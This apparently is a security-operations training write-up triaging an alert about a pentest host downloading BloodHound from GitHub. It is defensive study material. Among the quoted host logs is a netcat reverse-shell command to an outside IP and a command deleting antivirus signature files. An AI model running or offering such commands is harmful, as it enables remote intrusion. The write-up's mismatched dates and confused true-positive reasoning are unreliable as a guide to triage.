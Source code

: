# SOC119 - Proxy - Malicious Executable File Detected

We recieved a Medium alert for a malicious executable file detection. 

**EventID:** 79
**Event Time:** Mar, 15, 2021, 09:30 PM
**Rule:** SOC119 - Proxy - Malicious Executable File Detected
**Level:** Security Analyst
**Source Address:** 172.16.20.5
**Source Hostname:** PentestMachine
**Destination Address:** 140.82.121.4
**Destination Hostname:** github.com
**Username:** kali
**Request URL:** https://github.com/BloodHoundAD/BloodHound/releases
**User Agent:** Penetration Test - Do not Contain
**Device Action:** Allowed

## Analysis
We're going to give into the source address some to see if the destination host was contacted. 

![Screenshot 2023-02-17 at 8 24 32 AM](https://user-images.githubusercontent.com/74877876/219664377-e6dda9c2-31cf-4c78-b25b-9b3f0bb67241.png)

We can see it was on March 15, 2021 at 9:30pm which is the time and date of the alert. Let's look at the connection details.

![Screenshot 2023-02-17 at 8 25 55 AM](https://user-images.githubusercontent.com/74877876/219664676-1ed2ccb0-c2ae-45f4-8a44-58a9b2e63f8d.png)

https://github.com/BloodHoundAD/BloodHound/releases was accessed it looks like. 

We're going to look more at the source machine, any details we can find on that file or March 15, 2021. Looks like the source address, 172.16.20.5, is in fact the source hostname, PentestMachine.

No browser log. 

Command log: 13.06.2021 16:23 nmap -sV -sP 172.16.20.0/24

Network connections:
- 13.06.2021 16:23:01 - 172.16.20.1
- 13.06.2021 16:23:06 - 172.16.20.2
- 13.06.2021 16:23:13 - 172.16.20.3
- 13.06.2021 16:23:15 - 172.16.20.4
- 13.06.2021 16:23:19 - 172.16.20.6

The only processes that appear to be suspicious doesn't have a date. 
- nc 101.32.223.119 1234 -e /bin/sh - transfers the bash code to detected malicious Hong Kong domain using netcat.
- rm -f /var/lib/clamav-unofficial-sigs/pid/clamav-unofficial-sigs.pid - looks like Linux AV and it's signatures were removed. 
- A SQL database was accessed.

![Screenshot 2023-02-17 at 9 19 59 AM](https://user-images.githubusercontent.com/74877876/219680134-b389f0b0-a18e-4d99-8e36-c26cba644f3a.png)

The host machine is an Ubuntu machine so we know it's not an executable file that was accessed, but we're going to continue to analyze the file. 

**VirusTotal:** 
- Looking at https://github.com/BloodHoundAD/BloodHound/releases doesn't show any malicious detections. 
- Looking at 140.82.121.4 doesn't show any detections but shows the address is based in Denmark and connected to GitHub.
- While there lots of files 140.82.121.4 communicated with BloodHound's GitHub doesn't appear to be one of them. 
- The destination address doesn't show any relationships to BloodHound's GitHub. 

Since I'm familiar with GitHub, I looked up BloodHound's GitHub and was able to find the releases page. The URL does match the requested URL.

Let's look at BloodHound's GitHub is about.

![Screenshot 2023-02-17 at 9 11 28 AM](https://user-images.githubusercontent.com/74877876/219678260-90aba689-2db1-4569-b967-5dcf1ef96a08.png)

It definitely seems like their content is for pentesting. 

## Determination
Determining to be true positive since the file was accessed according to the logs. The file and the logs are suspicious based on the processes performed but looking into the intent of BloodHound's GitHub, the file was used for pentesting.  

## Helpful Link
- GitHub: https://github.com/BloodHoundAD/BloodHound
- VirusTotal: https://www.virustotal.com/gui/home/upload 
